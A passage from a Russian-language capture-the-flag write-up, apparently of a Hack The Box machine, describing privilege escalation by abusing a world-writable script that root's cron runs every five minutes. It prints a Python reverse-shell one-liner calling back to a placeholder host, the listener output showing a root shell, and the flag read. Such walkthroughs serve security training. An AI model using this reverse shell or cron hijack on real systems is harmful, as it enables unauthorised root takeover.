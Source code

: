 Что и требовалось доказать — `cron`, демон линуксоидного планировщика, запускает скрипт `/home/sun/Documents/script.py` каждые 5 минут с привилегиями суперпользователя, а результат работы скрипта записывает в `/home/sun/output.txt`. В то же время редактировать запускаемый скрипт может кто угодно, но каждые 5 минут он перезаписывается исходным содержимым, хранящимся в `/root/script.py` и доступным только для root'а.

Дальше все зависит только от твоей изобретательности. В рамках этого поста я покажу 2 способа, как можно ~~поиметь~~ заполучить желаемый флаг привилегированного пользователя.

## PrivEsc: sun → root. Способ 1
Для начала предлагаю получить полноценный root-шелл, чтобы честно сказать, что мы полностью захватили машину. Для этого, не мудрствуя лукаво, перезапишем `script.py` стандартным для Пайтона reverse-shell'ом:
```text
sun@sun:~$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()' > Documents/script.py
```

И ждем коннекта на listener'е:
```text
root@kali:~# nc -nlvvp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:44328.

root@sun:~# whoami
root

root@sun:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
После этого можно забирать флаг:
```text
root@sun:~# cat /root/root.txt
ba1d0019????????????????????????
```

И в качестве бонуса посмотреть суперпользовательский `crontab` (разберем его подробнее в [Эпилоге]({{ page.url }}#cron)):
```
root@sun:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
```